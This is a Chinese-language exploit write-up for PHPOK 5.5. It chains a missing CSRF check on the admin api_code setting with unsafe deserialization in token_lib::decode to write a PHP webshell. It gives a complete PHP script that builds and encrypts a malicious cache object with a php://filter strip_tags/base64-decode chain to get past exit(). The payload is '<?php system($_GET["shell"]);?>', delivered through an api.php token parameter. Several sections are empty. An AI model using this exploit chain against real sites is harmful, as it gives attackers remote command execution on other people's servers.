




PHPOK 5.5 csrf+反序列化漏洞getshell
===================================

一、漏洞简介
------------

二、漏洞影响
------------

PHPOK 5.5
=========

三、复现过程
------------

#### 可利用恶意类

恶意类文件：`framework\engine\cache.php`

**关键代码：**

    <?php
    class cache{
        public function save($id,$content=''){
            if(!$id || $content === '' || !$this->status){
                return false;
            }
            $this->_time();
            $content = serialize($content);
            $file = $this->folder.$id.".php";
            file_put_contents($file,'<?php exit();?>'.$content);
            $this->_time();
            $this->_count();
            if($GLOBALS['app']->db){
                $this->key_list($id,$GLOBALS['app']->db->cache_index($id));
            }
            return true;
        }
        public function __destruct(){
            $this->save($this->key_id,$this->key_list);
            $this->expired();
        }
    }
    ?>

很明显的`__destruct`方法调用了`save`方法，且传递的两个参数皆可控。

跟进`save`方法，可以看到里面调用了一个`file_put_contents`函数，且该函数的第一个参数可控，第二个参数部分可控。

第二个参数在最前面拼接了\`\`，使得后面再拼接的PHP代码也无法执行。

但是由于`file_put_contents`的第一个参数是可控的，所以我们可以通过控制第一个参数，来达到绕过`exit()`的效果。

`file_put_contents`的第一个参数是可以使用协议的，例如：

-   `php://output`
-   `php://filter/read=convert.base64-decode/resource=`
-   等等

通过控制协议，可以对文件内容进行各种过滤操作。同时我们可以注意到\`\`PHP的标签本质上是一段xml代码，所以我们可以使用`php://filter`的`string.strip_tags`过滤器，去除这一段代码。

demo：

    <?php
        echo file_get_contents('php://filter/read=string.strip_tags/resource=php://input');
    ?>

但是如果直接这样操作，会把我们后面也添加的PHP代码也给去掉，所以还得把加入的PHP代码通过base64encode的方式添加进去，再利用`php://filter`的`convert.base64-decode`进行还原。使用`|`符号能在`php://filter`中使用两个过滤器。

demo：

    <?php
        echo file_get_contents('php://filter/read=string.strip_tags|convert.base64-decode/resource=php://input');
    ?>

对文件写入时，将`read`修改为`write`即可。

#### 反序列化

漏洞文件： `framework/libs/token.php`

**关键代码：**

    <?php
    class token_lib{
        public function decode($string){
            if(!$this->keyid){
                return false;
            }
            $string = str_replace(' ','+',$string);
            $keyc = substr($string, 0, $this->keyc_length);
            $string = base64_decode(substr($string, $this->keyc_length));
            $cryptkey = $this->keya.md5($this->keya.$keyc);
            $rs = $this->core($string,$cryptkey);
            $chkb = substr(md5(substr($rs,26).$this->keyb),0,16);
            if((substr($rs, 0, 10) - $this->time > 0) && substr($rs, 10, 16) == $chkb){
                $info = substr($rs, 26);
                return unserialize($info);
            }
            return false;
        }
    }
    ?>

看函数名字就可以猜到这个函数是某个密文的解密方法，并且在解密后进行了反序列化操作。

如果我们可以将序列化后的类，通过对应的`encode`方法，生成`decode`函数的解密的格式，那么我们就可以反序列化该类。

`encode`方法：

    <?php
    class token_lib{
        public function keyid($keyid=''){
            if(!$keyid){
                return $this->keyid;
            }
            $this->keyid = strtolower(md5($keyid));
            $this->config();
            return $this->keyid;
        }
        private function config(){
            if(!$this->keyid){
                return false;
            }
            $this->keya = md5(substr($this->keyid, 0, 16));
            $this->keyb = md5(substr($this->keyid, 16, 16));
        }
        public function encode($string){
            if(!$this->keyid){
                return false;
            }
            $string = serialize($string);
            $expiry_time = $this->expiry ? $this->expiry : 365*24*3600;
            $string = sprintf('%010d',($expiry_time + $this->time)).substr(md5($string.$this->keyb), 0, 16).$string;
            $keyc = substr(md5(microtime().rand(1000,9999)), -$this->keyc_length);
            $cryptkey = $this->keya.md5($this->keya.$keyc);
            $rs = $this->core($string,$cryptkey);
            return $keyc.str_replace('=', '', base64_encode($rs));
            //return $keyc.base64_encode($rs);
        }
    }
    ?>

可以看到`encode`与`decode`方法都需要导入一个`keyid`值。于是全局搜索`->keyid(`

得知了这是在`site`数组里面的`api_code`值，且该值只能通过后台设置。

#### CSRF

这部分就不细分析了，直接黑盒抓后台修改`api_code`的请求，经过测试后可以发现，这个功能点没有进行CSRF防护：

可以看到，没有任何的CSRF防护

### 利用

至此，我们可以通过这些漏洞进行getshell了。

1.  诱导管理员访问精心构造的CSRF脚本，修改`api_code`
2.  利用已知的`api_code`，对上面可被恶意反序列化的类进行序列化后加密
3.  调用解密函数，触发反序列化

假设此处已经通过CSRF重置了系统的`api_code`为`123456`

使用脚本序列化恶意类，并对其进行`encode`

    <?php
    class cache{
        protected $key_id;
        protected $key_list;
        protected $folder;

        public function __construct(){
            $this->key_id = 'naiquan';
            $this->key_list = 'a'.base64_encode('<?php system($_GET["shell"]);?>');
            $this->folder = 'php://filter/write=string.strip_tags|convert.base64-decode/resource=';
        }
    }
    class token{
        private $keyid = '';
        private $keyc_length = 6;
        private $keya;
        private $keyb;
        private $time;
        private $expiry = 3600;

        public function keyid($keyid=''){
            if(!$keyid){
                return $this->keyid;
            }
            $this->keyid = strtolower(md5($keyid));
            $this->config();
            return $this->keyid;
        }
        private function config(){
            if(!$this->keyid){
                return false;
            }
            $this->keya = md5(substr($this->keyid, 0, 16));
            $this->keyb = md5(substr($this->keyid, 16, 16));
        }

        public function encode($string){
            if(!$this->keyid){
                return false;
            }

            $expiry_time = $this->expiry ? $this->expiry : 365*24*3600;
            $string = sprintf('%010d',($expiry_time + time())).substr(md5($string.$this->keyb), 0, 16).$string;
            $keyc = substr(md5(microtime().rand(1000,9999)), -$this->keyc_length);
            $cryptkey = $this->keya.md5($this->keya.$keyc);
            $rs = $this->core($string,$cryptkey);
            return $keyc.str_replace('=', '', base64_encode($rs));
            //return $keyc.base64_encode($rs);
        }
        private function core($string,$cryptkey){
            $key_length = strlen($cryptkey);
            $string_length = strlen($string);
            $result = '';
            $box = range(0, 255);
            $rndkey = array();
            // 产生密匙簿
            for($i = 0; $i <= 255; $i++){
                $rndkey[$i] = ord($cryptkey[$i % $key_length]);
            }
            // 用固定的算法，打乱密匙簿，增加随机性，好像很复杂，实际上并不会增加密文的强度
            for($j = $i = 0; $i < 256; $i++){
                $j = ($j + $box[$i] + $rndkey[$i]) % 256;
                $tmp = $box[$i];
                $box[$i] = $box[$j];
                $box[$j] = $tmp;
            }
            // 核心加解密部分
            for($a = $j = $i = 0; $i < $string_length; $i++){
                $a = ($a + 1) % 256;
                $j = ($j + $box[$a]) % 256;
                $tmp = $box[$a];
                $box[$a] = $box[$j];
                $box[$j] = $tmp;
                $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
            }
            return $result;
        }
    }
    $token = new token();
    $token->keyid('123456');
    echo $token->encode(serialize(new cache));
    ?>

运行脚本拿到Payload，请求有进行解密操作的接口，如：

    http://www.0-sec.org/api.php?c=index&f=phpok&token=

请求前：

请求后：

shell写入成功。

文件内容：

参考链接
--------

> https://xz.aliyun.com/t/7852
